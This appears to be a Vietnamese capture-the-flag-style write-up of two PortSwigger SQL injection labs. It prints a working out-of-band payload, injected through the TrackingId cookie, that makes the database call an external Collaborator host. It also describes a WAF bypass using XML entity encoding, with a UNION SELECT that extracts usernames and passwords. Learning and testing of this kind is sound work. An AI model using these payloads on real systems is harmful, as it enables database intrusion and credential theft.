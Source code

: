 ### Lab: Blind SQL injection with out-of-band interaction

- Thử payload check SQLi `''` thì thấy trả về `400 Bad Request`

    ![alt text](/SQLi/images/image-9.png)

- Thấy ở phần `Cookie` có cái `TrackingId=vwtTtOUj0OLYzIO7` khá lạ nên thử inject vào đó 

    ![alt text](/SQLi/images/image-10.png)

- Thử với các payload `OOB` thì có cái này hợp lệ

    ![alt text](/SQLi/images/image-11.png)

    - Payload: `TrackingId=vwtTtOUj0OLYzIO7'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//cr7wloypge7785bttf6naqslnct3hv5k.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--`

    ![alt text](/SQLi/images/image-13.png)


    - Vào `Burp Collaborator` pull là xong

    ![alt text](/SQLi/images/image-12.png)

    - Done

    ![alt text](/SQLi/images/image-14.png)

### Lab: SQL injection with filter bypass via XML encoding

- Trang web của bài

    ![alt text](/SQLi/images/image.png)

- Thử với tính năng `Check stock`

    ![alt text](/SQLi/images/image-1.png)

- Burp Repeater
    ![alt text](/SQLi/images/image-2.png)

- Thử với 1 request XML hợp lệ

    ![alt text](/SQLi/images/image-3.png)

    - Giờ thử với `UNION SELECT`, thấy bị detected bởi waf

    ![alt text](/SQLi/images/image-4.png)

    - Thử lại khi dùng thẻ `<@dec_entities>`, thấy kết quả hiện thị `null` tức là thành công null payload

    ![alt text](/SQLi/images/image-5.png)

    - Thử select username và password với `1 UNION SELECT username || '~' || password FROM users`, thành công lấy được tài khoản `administrator`

    ![alt text](/SQLi/images/image-6.png)

- Login vào tài khoản admin là solve lab

    ![alt text](/SQLi/images/image-7.png)
